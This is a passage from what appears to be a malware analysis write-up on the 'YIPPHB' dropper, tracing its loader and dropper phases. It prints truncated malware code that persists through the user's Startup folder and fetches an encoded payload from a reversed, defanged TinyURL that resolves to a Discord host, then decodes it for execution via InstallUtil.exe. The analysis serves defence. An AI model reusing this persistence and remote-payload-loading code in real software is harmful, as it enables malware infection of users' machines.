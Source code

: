 Now that the loader has been collected, it executes the method **PUlGKA** inside of the class **NwgoxM.KPJaN**. From the original Base64 decoded string

```
…truncated…
GetType('NwgoxM.KPJaNj').GetMethod('PUlGKA').Invoke($null, [object[]]
...truncated…:
```

![The loader’s execution](/assets/images/doing-time-with-the-yipphb-dropper/image7.png)

We may publish future research on this loader, which maintains access by copying itself into the user's Startup folder as a natively-supported VBscript.

```
FileSystem.FileCopy(RodaCopy, Environment.GetFolderPath(Environment.SpecialFolder.Startup) + "\\" + NameCopy + ".vbs");
```

### Dropper phase

From the loader's execution image above, we can see that the loader uses a reversed variable (**text = bdw6ufv4/moc[.]lruynit//:sptth**) to download an additional file using a TinyURL. Using the command line tool, **rev** , we can correct the reversed URL.

```
$ echo "bdw6ufv4/moc.lruynit//:sptth" | rev

https://tinyurl[.]com/4vfu6wd
```

We can unfurl the TinyURL using the Unshorten.me JSON API endpoint to identify the download location of the dropper.

```
$ curl https://unshorten.me/json/tinyurl[.]com/4vfu6wd
{
    "requested_url": "tinyurl[.]com/4vfu6wd",
    "success": true,
    "resolved_url": "https://cdn.discordapp[.]com/attachments/1023796232872792096/1023796278213234758/pesica.txt",
    "usage_count": 2,
    "remaining_calls": 9
}
```

Another encoded file is downloaded from Discord: **pesica.txt**. As of this writing, VirusTotal reports zero detections of this file.

With clues from **dllsica.bin** , we can see that **pesica.txt** uses UTF-8 encoding. To further analyze our file, we need to replace the **▒▒▒▒** values with an **A** , and Base64 decode the resulting strings.

```
…truncated…
string text = "bdw6ufv4/moc[.]lruynit//:sptth";
string text2 = new WebClient
{
	Encoding = Encoding.UTF8
}.DownloadString(Strings.StrReverse(text));
text2 = Strings.StrReverse(text2);
text2 = text2.Replace("▒▒▒▒", "A");
string text3 = new WebClient().DownloadString(Strings.StrReverse(_5));
text3 = Strings.StrReverse(text3);
…truncated…
	{
	text4 + "\\InstallUtil.exe",
	Convert.FromBase64String(text3)
	});
```